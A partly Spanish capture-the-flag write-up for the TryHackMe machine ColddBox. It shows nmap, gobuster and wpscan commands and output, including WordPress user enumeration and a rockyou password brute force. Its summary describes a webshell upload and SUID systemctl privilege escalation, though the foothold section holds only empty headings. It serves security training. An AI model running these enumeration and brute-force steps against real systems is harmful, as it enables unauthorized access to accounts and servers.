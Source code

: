 # ColddBox — Writeup

**Fecha:** 1-09-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary**
* 80/tcp open http (Apache/2.4.18)

---
## Web Enumeration (Gobuster)

```bash
  gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
**Comment:** `dir` busca directorios y archivos ocultos; `-w` lista de palabras.

**Result**
```bash
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://10.201.96.48/wp-content/]                                                                     
/wp-admin             (Status: 301) [Size: 315] [--> http://10.201.96.48/wp-admin/]                                                                       
Progress: 141707 / 141707 (100.00%)
===============================================================
```

## Users Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```
**Comment:** `--enumerate u` enumera usuarios de wordpress.

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

**Brute Force**
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash
[!] Valid Combinations Found:
 | Username: c0ldd, Password: REDACTED
```
## Foothold
**Reverse Shell**

**Upload Script**

**Listen Port**

**Upgrade Shell**
